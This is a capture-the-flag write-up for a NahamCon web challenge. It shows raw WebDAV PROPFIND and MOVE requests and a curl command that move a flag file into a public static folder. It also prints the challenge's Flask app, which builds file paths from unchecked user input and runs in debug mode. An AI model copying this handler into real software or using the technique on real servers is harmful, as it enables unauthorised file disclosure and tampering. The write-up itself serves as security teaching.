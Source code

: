 ## Title

The Davinci Code

## Description

Author: @JohnHammond#6971

Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...


## Solution

Once we browse to the code endpoint we get an error from the debugger originated from jinja, telling that code.html does not exist.

![1716559696203](image/writeup/1716559696203.png)

Here we can see that the main endpoint has a method called PROFIND:

![1716559799434](image/writeup/1716559799434.png)

Additionally we have the following methods allowed:

![1716559914735](image/writeup/1716559914735.png)

Running the following request we get a strange endpoint:

```
PROPFIND / HTTP/1.1
Host: challenge.nahamcon.com:32251
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=eyJuYW1lIjoiZ3Vlc3QifQ.ZlCdVQ.Nrxw2FDNVJMN8ofjs1QkCIjF63k
Upgrade-Insecure-Requests: 1
```

![1716560265251](image/writeup/1716560265251.png)

In it, we have the flag.txt:

![1716560304284](image/writeup/1716560304284.png)

However using PROPFIND we can't read the contents of the flag.txt. Looking around we found a backup of the app.py:

![1716560731115](image/writeup/1716560731115.png)

Code:

```py
from flask import Flask, request, Response, render_template, abort, send_from_directory
import xml.etree.ElementTree as ET
import os
import shutil

app = Flask(__name__)
os.makedirs('static', exist_ok=True)

@app.route('/static/<path:filename>')
def static_files(filename):
    return send_from_directory('static', filename)

def create_webdav_response(endpoint, properties, children=None):
    root = ET.Element('D:multistatus', {'xmlns:D': 'DAV:'})
    response = ET.SubElement(root, 'D:response')
    href = ET.SubElement(response, 'D:href')
    href.text = endpoint
    propstat = ET.SubElement(response, 'D:propstat')
    prop = ET.SubElement(propstat, 'D:prop')
    for key, value in properties.items():
        element = ET.SubElement(prop, f'D:{key}')
        element.text = value
    status = ET.SubElement(propstat, 'D:status')
    status.text = 'HTTP/1.1 200 OK'

    if children:
        for child in children:
            child_response = ET.SubElement(root, 'D:response')
            child_href = ET.SubElement(child_response, 'D:href')
            child_href.text = os.path.join(endpoint, child)
            child_propstat = ET.SubElement(child_response, 'D:propstat')
            child_prop = ET.SubElement(child_propstat, 'D:prop')
            child_name = ET.SubElement(child_prop, 'D:displayname')
            child_name.text = child
            child_status = ET.SubElement(child_propstat, 'D:status')
            child_status.text = 'HTTP/1.1 200 OK'

    return ET.tostring(root, encoding='utf-8', method='xml')

@app.route('/<path:path>', methods=['GET', 'PROPFIND', 'MOVE'])
def handle_webdav(path):
    full_path = os.path.join(os.getcwd(), path)
    if request.method == 'PROPFIND':
        if os.path.exists(full_path):
            properties = {'message': 'WebDAVinci Code'}
            children = None
            if os.path.isdir(full_path):
                properties['directory'] = 'True'
                children = os.listdir(full_path)
            else:
                properties['file'] = 'True'
            xml_response = create_webdav_response('/' + path, properties, children)
            return Response(xml_response, mimetype='application/xml')
        abort(404)
    elif request.method == 'MOVE':
        destination = request.headers.get('Destination')
        if destination:
            destination_path = os.path.join(os.getcwd(), destination.strip('/'))
            os.makedirs(os.path.dirname(destination_path), exist_ok=True)
            shutil.move(full_path, destination_path)
            return Response(status=204)
        abort(405)
    abort(404)

@app.route('/code')
def code():
    return render_template("code.html")

@app.route('/', methods=['GET', 'PROPFIND'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
        
    elif request.method == 'PROPFIND':
        properties = {'message': 'WebDAVinci Code'}
        children = None
        properties['directory'] = 'True'
        children = os.listdir(os.getcwd())
        xml_response = create_webdav_response('/', properties, children)
        return Response(xml_response, mimetype='application/xml')
    else:
        abort(405)


if __name__ == '__main__':
    app.run(debug=True, port=5000)

```

We have a method called MOVE that when used it looks for a header called *Destination* and move the path to a destination.
Lets move the flag: /the_secret_dav_inci_code/flag.txt
Execute the following request:
```http
MOVE /the_secret_dav_inci_code/flag.txt HTTP/1.1
Host: challenge.nahamcon.com:32251
Destination: static
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=eyJuYW1lIjoiZ3Vlc3QifQ.ZlCdVQ.Nrxw2FDNVJMN8ofjs1QkCIjF63k
Upgrade-Insecure-Requests: 1

```

We get the flag in: `http://challenge.nahamcon.com:32251/static/flag.txt`

Curl Version: `curl -X MOVE -H 'Destination: static/flag.txt' 'http://challenge.nahamcon.com:32400/the_secret_dav_inci_code/flag.txt'`